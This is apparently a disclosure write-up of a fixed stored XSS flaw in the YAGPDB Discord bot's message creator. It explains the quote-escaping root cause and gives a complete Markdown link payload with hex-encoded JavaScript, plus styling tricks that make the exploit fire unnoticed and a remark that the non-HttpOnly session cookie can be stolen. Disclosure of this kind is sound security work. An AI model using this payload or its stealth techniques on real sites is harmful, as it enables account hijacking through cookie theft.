



## A safe and cute message
*Fixed on: 16/06/2026*

[Webiste](https://yagpdb.xyz) | [Discord](https://discord.gg/4udtcA5)

**Y**et **A**nother **G**eneral **P**urpose **D**iscord **B**ot is another multi-purpose bot owned by BotLabs. This one [is open source](https://github.com/botlabs-gg/yagpdb)

At the date of this case, recently they added a new message creator that let's you send custom messages as the bot, with support for components V2:



By firstly trying weird things like putting a markdown style token inside a named link, the HTML started to bug:

```html
<div class="mc-content">
    <a href="https://google.com/<pre class=" mc-md-codeblock"="" target="_blank">
    <code>t</code>" target="_blank" rel="noopener">test</a>
</div>
```

This took my attention even if it leaded to nothing because the other less-than and greater-than operators where being html encoded: I tried to put a quote and these were being put literally, so you can break out of the `href` attribute and append other attributes, like a `onmouseover`. The problem now with executing JavaScript is that spaces and double quotes would make the Markdown parser stop threating this as a named link, but a payload like this:

```js
this.innerHTML = '\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x22\x61\x6c\x65\x72\x74\x28\x31\x29\x22\x3e' // 
```

Can solve the issue. But now I need a way to make this payload stealth and get an instant XSS when pasting this into the message creator. For the first actually I don't need nothing, as the Discord Markdown will happily leave these values inside the link without breaking it:



Now for a bit more of stealth, a `#` fragment can be appendend at the start of the payload, so the link wouldn't send to a 404 page.

For the second, I can append a `style` attribute which maximizes and moves the anchor element to where the pointer is right now (that can be the load message button or the message content text box), and maybe also append a class to get a better behaviour. This will make the `mouseover` event get almost instantly triggered (on Desktop):

```js
style="display:block;width:5000px;position:absolute;top:-50px;left:-500px"class="body"
```

So, my final link is this:

```md
[go to our website](https://google.com/#"style="display:block;width:5000px;position:absolute;top:-50px;left:-500px"class="body"onmouseover="this.innerHTML='\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x22\x61\x6c\x65\x72\x74\x28\x60\x47\x45\x54\x20\x50\x57\x4e\x45\x44\x3a\x20\x24\x7b\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x7d\x60\x29\x22\x3e')
```

And when I paste an owo-looking Discord message with this into the message creator:



And if you worry about lengths, then you can simply send the session cookie to a server that you control, as it's not HttpOnly.

Searching on the code, seems that the root cause is this line of code:

```js
// frontend/static/js/messagecreator.js (L866)
function esc(s) { 
    return String(s).replace(/&/g, "&amp;").replace(/</g, "&lt;").replace(/>/g, "&gt;"); 
}
```

It was being used to sanitize the href attribute, but didn't account for double quotes.

The dev fixed it quickly.


